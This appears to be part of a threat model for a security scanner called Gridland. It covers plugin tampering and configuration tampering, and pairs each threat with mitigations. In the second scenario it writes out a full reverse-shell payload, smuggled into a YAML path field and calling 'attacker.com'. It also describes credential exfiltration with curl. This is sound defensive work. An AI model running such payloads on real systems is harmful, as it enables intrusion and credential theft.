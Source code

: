 
## 2. Tampering

### 2.1. Unauthorized Modification of Scanner Plugins

- **Threat Description:** The scanner plugins are loaded dynamically from `.py` files in the `plugins/` directory. The application does not perform any integrity checks on these files before loading and executing them.
- **Attack Scenario:** An attacker gains low-privilege shell access to the Gridland server through an unrelated vulnerability (e.g., a weak SSH password on another service). The attacker does not have root access, but they have write permissions to the application directory. They modify `plugins/credential_scanner.py` and add a few lines of Python code that send any discovered credentials not only to the results database but also to a remote server under their control (`curl -d ...`). The next time an analyst runs a scan, the modified plugin executes, and the attacker silently exfiltrates valid credentials for high-value client systems.
- **Impact Assessment:** Critical. This allows for direct exfiltration of highly sensitive data (credentials for target systems) and can lead to a complete compromise of the networks being scanned.
- **Proposed Mitigation:**
    - **File Integrity Monitoring (FIM):** Implement a FIM system (like AIDE or Wazuh) on the server hosting Gridland. The system should be configured to monitor the `plugins/` directory and alert administrators immediately of any changes.
    - **Code Signing:** As a more robust solution, implement a code signing requirement for plugins. Before a plugin is loaded, the application would verify that its file has a valid digital signature from a trusted authority (the development team). If the signature is missing or invalid, the plugin is not loaded.
    - **Principle of Least Privilege:** Run the Gridland application under a dedicated, low-privilege user account that has read-only access to the `plugins/` directory. All application file permissions should be hardened.

### 2.2. Tampering with Scan Configuration at Rest

- **Threat Description:** Critical scan parameters, such as the paths for the discovery scanner, are stored in a world-readable and potentially world-writable YAML file (`data/discovery/paths.yml`).
- **Attack Scenario:** An attacker with local access to the server (as in the previous scenario) modifies the `data/discovery/paths.yml` file. They remove most of the legitimate paths and add a single new path under the `generic_admin_interface` category: `'/; /bin/bash -c "bash -i >& /dev/tcp/attacker.com/9999 0>&1"'`. The next time a scan is run, the `discovery_scanner` reads this malicious "path." While the scanner logic might not directly execute the command, a poorly sanitized component that uses this path (e.g., a logging or reporting function that calls a shell command) could be tricked into executing the payload, giving the attacker a reverse shell.
- **Impact Assessment:** High. This could lead to Remote Code Execution (RCE) on the Gridland server, depending on how other components process the configuration data. At a minimum, it allows an attacker to blind the scanner to real threats.
- **Proposed Mitigation:**
    - **Harden File Permissions:** The permissions for all configuration files should be hardened. They should be owned by the application's user and should not be writable by any other user on the system (`chmod 640`).
    - **Configuration Input Validation:** The application code that parses `paths.yml` must treat all input as untrusted. It should validate that each path is a valid, well-formed URL path and does not contain shell metacharacters or other malicious input.
    - **Environment Variables for Sensitive Config:** For any configuration that is highly sensitive or could influence execution flow, consider moving it out of flat files and into environment variables or a secure configuration management system (e.g., HashiCorp Vault).

---